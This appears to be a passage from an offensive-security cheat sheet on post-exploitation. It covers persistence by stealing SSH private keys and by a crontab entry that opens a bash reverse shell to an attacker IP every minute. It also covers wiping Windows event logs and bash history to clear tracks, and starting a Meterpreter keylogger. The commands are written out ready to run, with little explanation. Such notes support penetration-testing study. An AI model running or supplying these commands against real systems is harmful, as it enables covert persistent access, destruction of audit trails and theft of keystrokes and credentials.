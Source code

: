 **(2) Via SSH key:** After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH

**(3) With cron jobs**

<pre class="language-sh"><code class="lang-sh"><strong># 1. Set up listener
</strong><strong># 2. Create a cronjob (every minute time format)
</strong>echo "* * * * * /bin/bash -c 'bash -i >&#x26; /dev/tcp/&#x3C;attacker_ip>/&#x3C;port> 0>&#x26;1'" > cron 
# 3. This will replace the user's existing crontab with the contents of 'cron'
crontab cron

# Crontab for the current user
crontab -l 
#NOTE: if the command doesn't work try with another revshell
</code></pre>

## <mark style="color:purple;">Clearing tracks</mark>

**Windows**

```sh
# Metasploit/Meterpreter
clearev  # Clear the Application, System, and Security logs on a Windows system
```

**Linux**

```sh
history -c                          # Clear history
cat /dev/null > ~/.bash_history     # Same as above
```

## <mark style="color:purple;">Keylogger</mark>

```sh
# With metasploit
keyscan_start          # Start keylogger
keyscan_dump print     # Captured strokes
```
